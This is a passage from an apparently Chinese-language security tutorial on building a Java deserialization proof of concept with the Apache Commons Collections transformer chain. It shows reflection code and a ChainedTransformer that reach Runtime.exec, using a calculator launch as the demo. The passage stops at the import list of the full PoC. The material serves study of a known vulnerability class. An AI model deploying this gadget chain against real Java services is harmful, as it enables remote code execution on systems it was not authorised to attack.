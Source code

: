 ```java

```





还没到反序列化，直接在序列化这一步就直接报错了：因为`java.lang.Runtime`无法序列化

![image-20231123101302830](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123101302830.png)



我们继续优化...

#### 第二个poc demo

因为`java.lang.Runtime`无法序列化

Java中并不是所有对应都支持序列化，待序列化的对象和所有它使用的内部属性对象，都必须实现了`java.io.Serializable`接口。而我们最早传给`ConstantTransformer`的是`Runtime.getRuntime()`,`Runtime`类是没有实现`java.io.Serializable`接口的，所以不允许被序列化。



解决方法：继续使用反射实现。

我们先写一个反射来执行命令的方式：

```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);
r.exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");

```

再写一个新的transformer链：

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{args})
        };

```

先通过`Runtime.class`构造出一个Runtime对象（对象类型为`class`），然后执行该对象的`getMethod`方法，参数是`getRuntime`,这样就会得到一个反射的Method对象。然后执行这个Runtime对象的`invoke`方法，这样就会在**运行时**得到一个`java.lang.Runtime`对象（编译时没有），最终执行exec方法，参数就是rce要执行的命令。



我们构造出一个新的poc：

```java
package org.example2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
```